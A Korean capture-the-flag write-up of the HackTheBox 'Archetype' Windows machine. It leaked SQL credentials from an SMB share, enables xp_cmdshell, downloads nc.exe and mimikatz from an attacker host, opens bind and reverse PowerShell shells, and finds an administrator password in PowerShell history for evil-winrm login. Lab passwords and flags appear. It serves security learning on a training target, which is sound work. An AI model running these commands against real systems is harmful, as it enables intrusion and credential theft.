

*※ HTB Write-up의 경우 풀이 과정 중 machine을 자주 변경하여 풀이 과정 중에 기재한 IP가 모두 다릅니다. 하지만 실제론 동일한 서버이므로 참고 바랍니다.*

---


### Scan
우선 nmap으로 먼저 스캔해보자. 아래와 같이 탐지 내역이 꽤 많다. `rpc`, `smb`, `mssql` 관련된 port가 활성화 되어있는 것을 알 수 있다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# nmap -sCV 10.129.241.210
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-15 21:04 EST
Nmap scan report for 10.129.241.210
Host is up (0.27s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info:
|   10.129.241.210:1433:
|     Target_Name: ARCHETYPE
|     NetBIOS_Domain_Name: ARCHETYPE
|     NetBIOS_Computer_Name: ARCHETYPE
|     DNS_Domain_Name: Archetype
|     DNS_Computer_Name: Archetype
|_    Product_Version: 10.0.17763
| ms-sql-info:
|   10.129.241.210:1433:
|     Version:
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-02-16T02:01:50
|_Not valid after:  2054-02-16T02:01:50
|_ssl-date: 2024-02-16T02:05:04+00:00; +1s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery:
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-02-15T18:04:50-08:00
|_clock-skew: mean: 1h36m01s, deviation: 3h34m42s, median: 0s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-02-16T02:04:46
|_  start_date: N/A
```

### SMB
smbclient를 통해 어떤 공유 항목이 있는지 확인해보자. 아래와 같이 backups가 존재한다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# smbclient -L 10.129.95.187 -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```

접속해보니 'prod.dtsConfig' 란 파일이 존재하고 있기에 다운로드하였다.
> .dtsConfig 파일은 직접적으로 SQL Server에 접속하기 위한 것이 아니라, SQL Server Integration Services (SSIS) 패키지의 실행에 필요한 구성 정보를 저장하는 파일이다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# smbclient -N //10.129.95.187/backups
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                5056511 blocks of size 4096. 2515674 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

sql 계정으로 추청되는 id, pw 값 획득이 가능하다. 
``` xml
┌──(root㉿kali)-[/home/user]
└─# cat prod.dtsConfig
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
### SQL logon - Fail
mssql-cli를 설치하여 실행해보려 햇으나, mssql-cli 자체가 실행 시 오류를 발생시켜 해당 도구로는 테스트하지 못했다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# mssql-cli -S 10.129.95.187 -U sql_svc -P M3g4c0rp123
FailFast:
Couldn't find a valid ICU package installed on the system. Set the configuration flag System.Globalization.Invariant to true if you want to run with no globalization support.

   at System.Environment.FailFast(System.String)
   at System.Globalization.GlobalizationMode.GetGlobalizationInvariantMode()
   at System.Globalization.GlobalizationMode..cctor()
   at System.Globalization.CultureData.CreateCultureWithInvariantData()
   at System.Globalization.CultureData.get_Invariant()
   at System.Globalization.CultureInfo..cctor()
```

그래서 Windows 환경에 [SSMS](https://learn.microsoft.com/ko-kr/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-ver16)를 설치하여 접근을 시도하였다. 접근은 되는 듯 하나 사용자 계정 정보 오류를 확인 할 수 있었다.



### SQL logon - Success 
마지막으로 rpcclient로 해당 계정으로 접근해보았더니, 접근이 된다...! dfsConfig는 SQL 관련 패키지 속성 값인데 왜 rpc와 관련이 있는 것일까......하지만 마찬가지로 별다른 정보를 획득할 수는 없는 것 같다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# rpcclient -U sql_svc 10.129.215.129
Password for [WORKGROUP\sql_svc]:
rpcclient $> enumdomains
result was NT_STATUS_CONNECTION_DISCONNECTED
rpcclient $> getusername
Account Name: sql_svc, Authority Name: ARCHETYPE
rpcclient $> querydomainfo
command not found: querydomainfo
rpcclient $> querydominfo
result was NT_STATUS_CONNECTION_DISCONNECTED
rpcclient $> enumdomusers
result was NT_STATUS_CONNECTION_DISCONNECTED
rpcclient $> srcinfo
command not found: srcinfo
rpcclient $> srvinfo
        10.129.215.129 Wk Sv Sql NT SNT PtB LMB
        platform_id     :       500
        os version      :       10.0
        server type     :       0x59007
```

RPC Endpoint를 열거하기 위해 `impacket--rpcdump`를 사용해보고자 한다. 이거로 획득한 정보는 있지만, 어디에 사용해야할지는 감이 없다. 
``` bash
┌──(root㉿kali)-[/home/user]
└─# impacket-rpcdump -port 135 10.129.95.187
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Retrieving endpoint list from 10.129.95.187
Protocol: [MS-RSP]: Remote Shutdown Protocol
Provider: wininit.exe
UUID    : D95AFE70-A6D5-4259-822E-2C84DA1DDB0D v1.0
Bindings:
          ncacn_ip_tcp:10.129.95.187[49664]
          ncalrpc:[WindowsShutdown]
          ncacn_np:\\ARCHETYPE[\PIPE\InitShutdown]
          ncalrpc:[WMsgKRpc083610]
```

impacket의 mssqlclient 툴을 사용하여 접속할 수 있었다. `mssqlclient.py -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>`와 같은 형태로 접근하여 로그인에 성공하였다. 
``` bash
┌──(root㉿kali)-[/home/user]
└─# impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.215.129
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[-] ERROR(ARCHETYPE): Line 1: Login failed for user 'sql_svc'.

┌──(root㉿kali)-[/home/user]
└─# impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.215.129 -windows-aut
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL (ARCHETYPE\sql_svc  dbo@master)>
```

접속 후 어떤 명령어가 가능한지 출력해보면 아래와 같다. exe\*를 통해 실행하고 enum\*을 통해 정보를 출력. 그리고 익숙한 xp_cmdshell이 보인다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonate
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
    mask_query                 - mask query
```


xp_cmdshell을 실행하고자 하니 'turned off' 되어 있어 enable_xp_cmdshell을 통해 활성화 해주어야 한다. 그 후 실행 시 정상적으로 결과를 받아온다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell dir
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.

SQL (ARCHETYPE\sql_svc  dbo@master)> enable_xp_cmdshell
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell dir
output
--------------------------------------------------------------------------------
 Volume in drive C has no label.

 Volume Serial Number is 9565-0B4F

NULL

 Directory of C:\Windows\system32

```

해당 계정으로는 별 다른 권한이 없는 듯하다. 더 높은 권한 획득을 목표로 해야할 것 같다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell cd C:\Users\Administrator & cd
output
-------------------
Access is denied.
```

### File Transfer - Fail
권한 상승을 위해 파일을 전달할 방법으로 처음에 사용했던 smb를 다시 사용해보고자 했다. 하지만 쓰기 권한이 없어 실패한다.
``` bash
smb: \> put rfi.php rfi.php
NT_STATUS_ACCESS_DENIED opening remote file \rfi.php
```

다시 mssqlclient로 돌아와 어떤 방식으로 접근 가능할지 고민해보았고, 아래와 같이 powershell과 curl을 사용할 수 있음을 알 수 있다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell powershell
output
---------------------------------------------------------
Windows PowerShell

Copyright (C) Microsoft Corporation. All rights reserved.

NULL

PS C:\Windows\system32>
```

mimikatz.exe를 다운로드하여 실행해보려 했으나 host 정보를 제대로 갖고오지 못하여 다른 방법을 찾아볼까 한다. -> HTB 문제는 기본적으로 외부와 접근이 되지 않는다고 한다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell curl -fsSL -O https://raw.githubusercontent.com/ParrotSec/mimikatz/blob/master/Win32/mimikatz.exe
output
-----------------------------------------------------------
curl: (6) Could not resolve host: raw.githubusercontent.com

NULL
```


### File Transfer - Success
공격 대상 서버로 각종 파일을 옮길 때 아래와 같이 옮기면 된다. 공격자 서버에는 `python -m http.server`를 띄워놓은 상태이다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell curl -o C:\Users\Public\mimi.exe http://10.10.14.175:8000/mimi.exe
output
--------------------------------------------------------------------------------
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current

                                 Dload  Upload   Total   Spent    Left  Speed

100 1059k  100 10       0     0   200k      0  0:00:05  0:00:01  0:00:04  126k

59k    0     0   529k      0  0:00:02  0:00:02 --:--:--  445k

NULL

SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell curl -o C:\Users\Public\nc.exe http://10.10.14.175:8000/nc.exe
output
--------------------------------------------------------------------------------
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current

                                 Dload  Upload   Total   Spent    Left  Speed

100 59392  100 59392    0     0  59392      0  0:00:01  0:00:01 --:--:-- 56725

NULL
```

### Bind&Reverse Shell
nc.exe를  전송하였기에 아래와 같이 기본적인 바인드 쉘 연결을 할 수 있다.
``` bash
# 공격 대상 서버
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell C:\Users\Public\nc.exe -lvp 443 -e powershell

# 공격자 서버
┌──(root㉿kali)-[~user]
└─# nc 10.129.41.155 443
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
```

아래는 리버스 쉘을 연결할 때의 명령어다.
``` bash
# 공격 대상 서버
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell C:\Users\Public\nc.exe 10.10.14.175 443 -e powershell

# 공격자 서버
┌──(root㉿kali)-[~user]
└─# nc -lvp 443
listening on [any] 443 ...
10.129.41.155: inverse host lookup failed: Unknown host
connect to [10.10.14.175] from (UNKNOWN) [10.129.41.155] 49682
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
```


### Mimikatz
mimikatz를 통해 윈도우 계정 정보 획득을 시도해보았다. 현재 계정 `sql_svc`로 실행하였기에 아래 ERROR 문구와 같이 권한이 없다고 나온다. 역시 권한을 먼저 상승시켜야 할 것 같다.
``` bash
PS C:\Users\Public> .\mimi.exe
.\mimi.exe

  .#####.   mimikatz 2.2.0 (x86) #19041 Sep 19 2022 17:43:26
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::logonPasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)

mimikatz # privilege::debug
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061
```

### WinPEAS
이 부분 역시 공략을 참고하였다. 문제 풀이 과정 중 아래 문제의 정답을 도저히 모르기에, 결국 참고하였다. 말 그대로라면 권한 상승이 가능한 부분을 보여준다는 신기한 도구이다.
> What script can be used in order to search possible paths to escalate privileges on Windows hosts?

해당 파일은 [Github](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)에서 다운로드 가능하며, 나의 경우 bat 형태로 받아 이전의 File Transfer 과정을 거쳐 대상 서버에 다운로드하였다.


powershell을 통해 실행하면 아래와 같이 나오며, 꽤 오래시간이 소요된다.
``` bash
PS C:\Users\Public> .\winpeas.ps1
.\winpeas.ps1
,/*,..*(((((((((((((((((((((((((((((((((,
,*/((((((((((((((((((/,  .*//((//**, .*((((((*
((((((((((((((((* *****,,,\########## .(* ,((((((
(((((((((((/*******************####### .(. ((((((
(((((((/******************/@@@@@/***\#######\((((((
,,..**********************/@@@@@@@@@/***,#####.\/(((((
, ,**********************/@@@@@+@@@/*********##((/ /((((
..(((##########*********/#@@@@@@@@@/*************,,..((((
.(((################(/******/@@@@@/****************.. /((
.((########################(/************************..*(
.((#############################(/********************.,(
.((##################################(/***************..(
.((######################################(/***********..(
.((######(,.***.,(###################(..***(/*********..(
.((######*(####((###################((######/(********..(
.((##################(/**********(################(**...(
.(((####################/*******(###################.((((
.(((((############################################/  /((
..(((((#########################################(..(((((.
....(((((#####################################( .((((((.
......(((((#################################( .(((((((.
(((((((((. ,(############################(../(((((((((.
  (((((((((/,  ,####################(/..((((((((((.
        (((((((((/,.  ,*//////*,. ./(((((((((((.
           (((((((((((((((((((((((((((/
          by CarlosPolop & RandolphConley
ADVISORY: WinPEAS - Windows local Privilege Escalation Awesome Script
```

수집된 정보를 보던 중 꽤 익숙한 5985 port가 있다는 것을 확인했다.
``` bash
=========|| LISTENING PORTS
Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       836
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       1556
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
```

nmap으로 확인해보니 wsman (winRM)이 동작하고 있는 것을 알 수 있다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# nmap -sCV -p 5985 10.129.95.187
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-22 23:05 EST
Nmap scan report for 10.129.95.187
Host is up (0.31s latency).

PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.97 seconds

┌──(root㉿kali)-[/home/user]
└─# nmap -p 5985 10.129.95.187
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-22 23:05 EST
Nmap scan report for 10.129.95.187
Host is up (0.34s latency).

PORT     STATE SERVICE
5985/tcp open  wsman
```
수집한 게정을 통해 evil-winrm을 실행해았지만, 실패했다. 생각해보니 아래 계정으로는 접속 해봤자. 이미 쉘을 장악한 상태이기에 무의미하다. 다시 권한 상승을 찾아보자

``` bash
┌──(root㉿kali)-[/home/user]
└─# evil-winrm -i 10.129.95.187 -u sql_svc -p M3g4c0rp123

Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```

로컬 파일을 찾아보던 중 아래와 같이 user.txt란 파일을 발견했고 해당 파일에는 user flag가 포함되어 있다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell dir c:\Users\sql_svc\Desktop
output
--------------------------------------------------
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F
 Directory of c:\Users\sql_svc\Desktop

01/20/2020  05:42 AM    <DIR>          .
01/20/2020  05:42 AM    <DIR>          ..
02/25/2020  06:37 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  10,738,532,352 bytes free

SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell type c:\Users\sql_svc\Desktop\user.txt
output
--------------------------------
3e7b102e78218e935bf3f4951fec21a3
```

winPEAS.ps1의 결과를 보던 중 아래의 내용이 발견되었다.
``` bash
=========|| PowerShell History (Password Search Only)
=|| PowerShell Console History
=|| To see all history, run this command: Get-Content (Get-PSReadlineOption).HistorySavePath

=|| AppData PSReadline Console History
=|| To see all history, run this command: Get-Content C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

=|| PowesRhell default transrcipt history check
```
해당 파일을 출력해보면 administrator의 계정정보를 획득할 수 있다. 보아하니 smb 관련하여 관리자 계정으로 접근했던 이력이 파일에 남은 듯 하다.
```
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
output
-----------------------------------------------------------------------
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

레지스트리 수집 결과가 너무 오래 걸려 중단했지만, winPEAS의 중간 수집 결과 중 아래의 내용도 확인할 수 있었다. 괜히 오래 기다렸나싶다.
``` bash
Possible Password found: Usernames2
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Usernames2 triggered
> net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```


획득한 계정 정보를 통해 runas로 사용자를 변경하려 했으나, 이상하게 패스워드 입력 받는 부분에서 입력을 제대로 받지 않고 무시된다...도저히 패스워드를 입력할 수가없다. 또 runas는 pw를 인자로 안받기에 문제다.
``` bash
PS C:\Windows\system32> runas /user:administrator "cmd.exe"
runas /user:administrator "cmd.exe"
Enter the password for administrator:
PS C:\Windows\system32> 
```

### login administorator
하지만 이전의 삽집을 통해 winRM이 동작하고 있음을 알 수 있다. evil-winrm을 사용하여 로그인해보았다.ㅡㅡㅡㅡgood! 드디어 관리자 계정으로 로그인에 성공했다.
> 패스워드에 역슬래쉬를 넣은 이유는 리눅스에서 "!"를 history로 인식하기에 이스케이프 해주어야 한다. 안그럼 자꾸 명령줄에 다른 문구가 자동으로 붙어진다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# evil-winrm -i 10.129.95.187 -u administrator -p MEGACORP_4dm1n\!\!

Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
archetype\administrator
```


``` bash
*Evil-WinRM* PS C:\Users\Administrator> dir Desktop
    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/25/2020   6:36 AM             32 root.txt

*Evil-WinRM* PS C:\Users\Administrator> type Desktop\root.txt
b91ccec3305e98240082d4474b848528
```
드디어 풀었다....이번 문제는 푸는데 정말 오래걸렸다...winpeas의 모든 결과를 기다려야 하는 줄 알고 시간을 오래 할애하였음에도 자꾸 문제로 받은 머신이 종료되어 풀 수가 없었다. 그냥 중간에 진작 결과를 볼걸..


### 참고
아래는 winpeas.ps1의 실행 결과를 별도 파일로 저장하여 추출해내려고 할 때 사용하려던 방식이다. smb가 활성화되어 있으므로, 아래와 같이 backups의 실제 경로를 파악 후 해당 경로에 수집된 결과를 업로드해놓으면 추출이 용이하다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell net share
output
-------------------------------------------------------------------------------
Share name   Resource                        Remark
-------------------------------------------------------------------------------
IPC$                                         Remote IPC
C$           C:\                             Default share
ADMIN$       C:\Windows                      Remote Admin
backups      C:\backups

SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell dir C:\backups
output
-----------------------------------------------------
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\backups

01/20/2020  04:20 AM    <DIR>          .
01/20/2020  04:20 AM    <DIR>          ..
01/20/2020  04:23 AM               609 prod.dtsConfig
```